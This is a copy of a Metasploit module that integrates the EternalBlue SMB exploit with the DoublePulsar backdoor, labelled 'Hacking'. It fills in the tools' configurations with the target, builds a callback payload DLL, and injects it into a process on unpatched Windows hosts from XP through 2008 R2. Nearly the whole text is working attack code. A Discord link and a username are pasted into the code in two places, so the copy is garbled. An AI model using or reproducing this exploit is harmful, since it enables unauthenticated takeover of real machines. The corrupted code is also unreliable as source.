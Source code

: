 # Hacking
https://github.com/Telefonica/Eternalblue-Doublepulsar-Metasploit/blob/master/eternalblue_doublepulsar.rb
///su
require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote

  #include Msf::Exploit::Remote::DCERPC
  include Msf::Exploit::Remote::SMB::Client

  def initialize(info = {})
    super(update_info(info,
      'Name'        => 'EternalBlue',
      'Description' => %q{
          This module exploits a vulnerability on SMBv1/SMBv2 protocols through Eternalblue. 
	  After that, doublepulsar is used to inject remotely a malicious dll (it's will generate based on your 	  payload selection).
	  You can use this module to compromise a host remotely (among the targets available) without needing 		  nor authentication neither target's user interaction.
	  ** THIS IS AN INTEGRATION OF THE ORIGINAL EXPLOIT, IT'S NOT THE FULL PORTATION **
      },
      'Author'      =>
        [
          'Pablo Gonzalez (@pablogonzalezpe)',
          'Sheila A. Berta (@UnaPibaGeek)'
        ],
		'Payload'        =>
        {
          'BadChars'   => "\x00\x0a\x0d",
        },
      'Platform'       => 'win',
      'DefaultTarget'  => 8,
      'Targets'        =>
        [
	  ['Windows XP (all services pack) (x86) (x64)',{https://discord.com/channels/@me/915286719102869554
☬ 𝑻𝒐𝒎𝒊𝒐𝒌𝒂 𝑮𝒊𝒚𝒖 ☬#4890}],
	  ['Windows Server 2003 SP0 (x86)',{}],
	  ['Windows Server 2003 SP1/SP2 (x86)',{}],
	  ['Windows Server 2003 (x64)',{}],
          ['Windows Vista (x86)',{}],
	  ['Windows Vista (x64)',{}],
	  ['Windows Server 2008 (x86) ',{}],
	  ['Windows Server 2008 R2 (x86) (x64)',{}],
	  ['Windows 7 (all services pack) (x86) (x64)',{}]
	],
      'Arch'           => [ARCH_X86,ARCH_X64],
	  'ExitFunc'	   => 'thread',
	  'Target'		   => 0,
      'License'     => MSF_LICENSE,
		)

		)

	register_options([
		OptEnum.new('TARGETARCHITECTURE', [true,'Target Architecture','x86',['x86','x64']]),
		OptString.new('ETERNALBLUEPATH',[true,'Path directory of Eternalblue','/root/Eternalblue-Doublepulsar-Metasploit/deps/']),
		OptString.new('DOUBLEPULSARPATH',[true,'Path directory of Doublepulsar','/root/Eternalblue-Doublepulsar-Metasploit/deps/']),
		OptString.new('WINEPATH',[true,'WINE drive_c path','/root/.wine/drive_c/']),
		OptString.new('PROCESSINJECT',[true,'Name of process to inject into (Change to lsass.exe for x64)','wlms.exe'])
	], self.class)

  register_advanced_options([https://discord.com/channels/@me/915286719102869554
☬ 𝑻𝒐𝒎𝒊𝒐𝒌𝒂 𝑮𝒊𝒚𝒖 ☬#4890]
    OptInt.new('TimeOut',[false,'Timeout for blocking network calls (in seconds)',60]),
    OptString.new('DLLName',[true,'DLL name for Doublepulsar','eternal11.dll'])
  ], self.class)

  end

  def exploit

  #Custom XML Eternalblue
  print_status('Generating Eternalblue XML data')
  cp = `cp #{datastore['ETERNALBLUEPATH']}/Eternalblue-2.2.0.Skeleton.xml #{datastore['ETERNALBLUEPATH']}/Eternalblue-2.2.0.xml`
  sed = `sed -i 's/%RHOST%/#{datastore['RHOST']}/' #{datastore['ETERNALBLUEPATH']}/Eternalblue-2.2.0.xml`
  sed = `sed -i 's/%RPORT%/#{datastore['RPORT']}/' #{datastore['ETERNALBLUEPATH']}/Eternalblue-2.2.0.xml`
  sed = `sed -i 's/%TIMEOUT%/#{datastore['TIMEOUT']}/' #{datastore['ETERNALBLUEPATH']}/Eternalblue-2.2.0.xml`

  #WIN72K8R2 (4-8) and XP (0-3)
  if target.name =~ /7|2008|Vista/
	objective = "WIN72K8R2"
  else
	objective = "XP"
  end

  sed = `sed -i 's/%TARGET%/#{objective}/' #{datastore['ETERNALBLUEPATH']}/Eternalblue-2.2.0.xml`

  #Custom XML Doublepulsar
  print_status('Generating Doublepulsar XML data')
  cp = `cp #{datastore['DOUBLEPULSARPATH']}/Doublepulsar-1.3.1.Skeleton.xml #{datastore['DOUBLEPULSARPATH']}/Doublepulsar-1.3.1.xml`
  sed = `sed -i 's/%RHOST%/#{datastore['RHOST']}/' #{datastore['DOUBLEPULSARPATH']}/Doublepulsar-1.3.1.xml`
  sed = `sed -i 's/%RPORT%/#{datastore['RPORT']}/' #{datastore['DOUBLEPULSARPATH']}/Doublepulsar-1.3.1.xml`
  sed = `sed -i 's/%TIMEOUT%/#{datastore['TIMEOUT']}/' #{datastore['DOUBLEPULSARPATH']}/Doublepulsar-1.3.1.xml`
  sed = `sed -i 's/%TARGETARCHITECTURE%/#{datastore['TARGETARCHITECTURE']}/' #{datastore['DOUBLEPULSARPATH']}/Doublepulsar-1.3.1.xml`
  dllpayload = datastore['WINEPATH'] + datastore['DLLName']
  dllpayload2 = dllpayload.gsub('/','\/')
  sed = `sed -i 's/%DLLPAY%/#{dllpayload2}/' #{datastore['DOUBLEPULSARPATH']}/Doublepulsar-1.3.1.xml`
  sed = `sed -i 's/%PROCESSINJECT%/#{datastore['PROCESSINJECT']}/' #{datastore['DOUBLEPULSARPATH']}/Doublepulsar-1.3.1.xml`

  #Generate DLL
  print_status("Generating payload DLL for Doublepulsar")
  pay = framework.modules.create(datastore['payload'])
  pay.datastore['LHOST'] = datastore['LHOST']
  pay.datastore['LPORT'] = datastore['LPORT']
  dll = pay.generate_simple({'Format'=>'dll'})
  File.open(datastore['WINEPATH']+datastore['DLLName'],'w') do |f|
	print_status("Writing DLL in #{dllpayload}")
	f.print dll
  end

  #Send Exploit + Payload Injection
  print_status('Launching Eternalblue...')
  output = `cd #{datastore['ETERNALBLUEPATH']}; wine Eternalblue-2.2.0.exe`
  if output =~ /=-=-WIN-=-=/
  	print_good("Pwned! Eternalblue success!")
  elsif output =~ /Backdoor returned code: 10 - Success!/
	print_good("Backdoor is already installed")
  else
	print_error("Are you sure it's vulnerable?")
  end
  print_status('Launching Doublepulsar...')
  output2 = `cd #{datastore['DOUBLEPULSARPATH']}; wine Doublepulsar-1.3.1.exe`
  if output2 =~ /Backdoor returned code: 10 - Success!/
	print_good("Remote code executed... 3... 2... 1...")
  else
	print_error("Oops, something was wrong!")
  end  

  handler

 end

end
